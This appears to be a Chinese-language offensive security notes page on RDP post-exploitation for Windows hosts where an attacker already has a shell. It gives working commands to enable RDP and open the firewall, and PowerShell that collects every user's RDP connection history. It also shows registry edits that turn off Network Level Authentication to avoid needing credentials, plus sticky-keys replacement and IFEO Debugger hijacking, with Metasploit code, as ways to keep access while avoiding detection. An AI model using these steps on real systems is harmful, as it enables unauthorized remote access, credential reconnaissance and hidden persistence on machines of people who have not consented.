





# RDP 相关姿势

## 0x00 注册表相关

很多时候我们仅仅是拿到一个shell, 并没有也不方便登录图形界面, 所以需要了解一些常见操作对应的注册表项设置

rdp相关的注册表目录:

set REG_PATH = "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"

- REG_PATH: fDenyTSConnections rdp服务是否开启, 0: on, 1: off(default)
- REG_PATH\WinStations\RDP-Tcp: PortNumber rdp服务端口, 默认0xd3d(3389)
- REG_PATH\WinStations\RDP-Tcp: [UserAuthentication][1] 鉴权模式开关, 0: off(default), 1: on, 对应 `仅允许运行时使用网络级别身份验证的远程远程桌面的计算机连接` 选项
- REG_PATH\WinStations\RDP-Tcp: [SecurityLayer][2] 安全层, 0: 使用rdp验证, 1: c&s在连接前协商验证方法(default), 2: TLS
- HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers, 当前户的rdp历史

## 0x01 基本操作

### 0. 确认服务状态

```bash
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections # 服务是否开启
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\ WinStations\RDP-Tcp" /v PortNumber # 服务端口
1
# 其实就是查询 0x00 提到的几个相关注册表项
```

### 1. 开启远程桌面

```bash
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

msf: post/windows/manage/enable_rdp

### 2. 连接

windows:

    - mstsc.exe
    - MobaXterm
    - ...

Linux:

    - rdesktop

### 3. 查询当前客户端远程历史

## 0x02 连接历史查询

这里取了 [三好学生的博客](https://3gstudent.github.io/) 的内容

1. 获取当前账号的历史记录

```powershell
$RegPath = "Registry::HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers\"
$QueryPath = dir $RegPath -Name
foreach($Name in $QueryPath)
{   
	Try  
	{  
		$User = (Get-ItemProperty -Path $RegPath$Name -ErrorAction Stop).UsernameHint
    		Write-Host "Server:"$Name
    		Write-Host "User:"$User"`n"
    	}
    	Catch  
    	{
		Write-Host "No RDP Connections History"
    	}
}
```
这里为 三好学生 的一篇博客, 详见 [引用3], 但是原博客中, 获取 $User的语句中, `| Out-null` 会导致无输出, 删掉

2. 获取已登录账号的历史记录

```powershell
$AllUser = Get-WmiObject -Class Win32_UserAccount
foreach($User in $AllUser)
{
	$RegPath = "Registry::HKEY_USERS\"+$User.SID+"\Software\Microsoft\Terminal Server Client\Servers\"
	Write-Host "User:"$User.Name
	Write-Host "SID:"$User.SID
	Write-Host "Status:"$User.Status
	Try  
    	{ 
		$QueryPath = dir $RegPath -Name -ErrorAction Stop
	}
	Catch
	{
		Write-Host "No RDP Connections History"
		Write-Host "----------------------------------"
		continue
	}
	foreach($Name in $QueryPath)
	{   
		Try  
    		{  
    			$User = (Get-ItemProperty -Path $RegPath$Name -ErrorAction Stop).UsernameHint
    			Write-Host "Server:"$Name
    			Write-Host "User:"$User
    		}
    		Catch  
    		{
			Write-Host "No RDP Connections History"
    		}
	}
	Write-Host "----------------------------------"	
}
```

3. 获取所有账号的历史记录

```powershell
$AllUser = Get-WmiObject -Class Win32_UserAccount
foreach($User in $AllUser)
{
	$RegPath = "Registry::HKEY_USERS\"+$User.SID+"\Software\Microsoft\Terminal Server Client\Servers\"
	Write-Host "User:"$User.Name
	Write-Host "SID:"$User.SID
	Write-Host "Status:"$User.Status
	$QueryPath = dir $RegPath -Name -ErrorAction SilentlyContinue
	If(!$?)
	{
		Write-Host "[!]Not logged in"
		Write-Host "[*]Try to load Hive"
		$File = "C:\Documents and Settings\"+$User.Name+"\NTUSER.DAT"
		$Path = "HKEY_USERS\"+$User.SID
		Write-Host "[+]Path:"$Path 
		Write-Host "[+]File:"$File
		Reg load $Path $File
		If(!$?)
		{
			Write-Host "[!]Fail to load Hive"
			Write-Host "[!]No RDP Connections History"
		}
		Else
		{
			$QueryPath = dir $RegPath -Name -ErrorAction SilentlyContinue
			If(!$?)
			{
				Write-Host "[!]No RDP Connections History"
			}
			Else
			{
				foreach($Name in $QueryPath)
				{   
					$User = (Get-ItemProperty -Path $RegPath$Name -ErrorAction Stop).UsernameHint
					Write-Host "Server:"$Name
					Write-Host "User:"$User
				}
			}
			Write-Host "[*]Try to unload Hive"
			Start-Process powershell.exe -WindowStyle Hidden -ArgumentList "Reg unload $Path"		
		}
	}
	foreach($Name in $QueryPath)
	{   
		Try  
		{  
			$User = (Get-ItemProperty -Path $RegPath$Name -ErrorAction Stop).UsernameHint
			Write-Host "Server:"$Name
			Write-Host "User:"$User
		}
		Catch  
		{
			Write-Host "[!]No RDP Connections History"
		}
	}
	Write-Host "----------------------------------"	
}
```

## 0x03 清除连接历史

详见[引用4]

## 0x04 辅助功能劫持(`T1546.008 Accessibility Features`)

众所周知, 有RDP的情况下, 一个重要权限维持方式就是劫持辅助功能, 其主要思想就是把辅助程序替换为想执行的程序, 比如`cmd.exe`, 因为辅助程序的运行权限较高且不易被发现, 所以可以作为提权和权限维持的手法

类似的, 还有下面这些工具可以做同类利用:

- sticky keys: C:\Windows\System32\sethc.exe
- On-Screen Keyboard: C:\Windows\System32\osk.exe
- Magnifier: C:\Windows\System32\Magnify.exe
- Narrator: C:\Windows\System32\Narrator.exe
- Display Switcher: C:\Windows\System32\DisplaySwitch.exe
- App Switcher: C:\Windows\System32\AtBroker.exe

但是, 这个利用还有一点点细节问题需要处理

tips: 如果系统远程桌面勾选了`仅允许运行时使用网络级别身份验证的远程远程桌面的计算机连接`, 则必须需要正确的账号密码才能进入远程桌面界面





但是如果我们收集到的账号密码被改掉了, 或者为了减小被发现的风险, 最好是希望不登录就能进入远程桌面, 需要同时设置 UserAuthentication 和 SecurityLayer为0

```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
```

此种文件替换的方式, 只对老一些版本的系统有效, 而较新版本的系统， 比如 win10, win server 2019, 则会报操作需要 `TrustedInstaller` 权限, 此时就需要用到下面的 辅助功能镜像劫持



## 0x05 辅助功能镜像劫持(`T1546.012 Image File Execution Options Injection`)

谈 Image File Execution Options Injection, 首先要搞明白 Image File Execution Options(IFEO) 是什么

IFEO 中文译为 镜像文件执行选项, 从名字也可以得出, 可执行文件执行时, 会检查并加载这些选项再执行可执行文件. 

`Debugger` 参数可方便程序员使用调试器调试程序, 也成为一种隐藏执行其他程序的有效方式

而 IFEO Injection, 就是将要劫持的文件的 Debugger 改为我们想要执行的程序

IFEOs 路径: `HKLM\SOFTWARE{{\Wow6432Node}}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`

msf 的 `post/windows/manage/sticky_keys` 模块使用了此手法, 主要原理为:

```ruby
include Msf::Post::Windows::Registry

DEBUG_REG_PATH = 'HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options'
DEBUG_REG_VALUE = 'Debugger'

target_exe_name = 'target executable to inject, e.g., sethc.exe'
command = 'executable to execute, e.g., %SYSTEMROOT%\system32\cmd.exe'
target_key = "#{DEBUG_REG_PATH}\\#{target_exe_name}"

registry_createkey(target_key)
registry_setvaldata(target_key, DEBUG_REG_VALUE, command, 'REG_SZ')
```

使用 Process Monitor 观察 msf 执行 sticky keys 时的操作:



添加的注册表项:



## 0x06 影子用户

参考[引用7]

## 0x0n reference

1. [Microsoft-Windows-TerminalServices-RDP-WinStationExtensions](https://docs.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-rdp-winstationextensions)

[1]: https://docs.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-rdp-winstationextensions-userauthentication
[2]: https://docs.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-rdp-winstationextensions-securitylayer

2. [ATT&CK T1546.008](https://attack.mitre.org/techniques/T1546/008/)
3. [3gstudent_渗透技巧——获得Windows系统的远程桌面连接历史记录](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E8%BF%9E%E6%8E%A5%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95)
4. [how-to-clear-rdp-connections-history](http://woshub.com/how-to-clear-rdp-connections-history/#h2_3)
5. [Windows权限维持总结](https://mp.weixin.qq.com/s/MKN5JOiOg-Iwqztfmn2P7g)
6. [ATT&CK T1546.012](https://attack.mitre.org/techniques/T1546/012/)
7. [3gstudent_渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F)